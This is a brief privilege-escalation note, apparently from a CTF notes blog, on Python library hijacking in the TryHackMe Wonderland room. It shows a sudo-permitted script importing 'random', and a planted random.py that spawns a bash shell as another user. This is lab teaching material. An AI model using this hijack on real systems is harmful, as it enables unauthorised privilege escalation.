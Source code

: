 ```yaml
---
description: >-
  Python Library Hijacking
title: Python Library Hijacking              # Add title here
date: 2022-08-04 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Python Library Hijacking]                     # Change Templates to Writeup
tags: [privesc, python library hijacking]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Libraries hijacking
If there is a script using certain library without full path, you can hijack and impersonate commands as the user executing the script:

```bash
alice@wonderland:/root$ sudo -l
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

In this case the random library can be hijacked:
```python
--------------------- Code being executed -------------------------------
import random
poem = """The sun was shining on the sea,
Shining with all his might"""
```
The prior library is not using full path to being called so we can create a file called random.py as python will first look onto the same folder instead of the PATH variable environment:
```python
--------------------------- random.py ---------------------------------
import pty

pty.spawn("/bin/bash")
```
Examples: 
[THM Wonderland](https://tryhackme.com/room/wonderland)
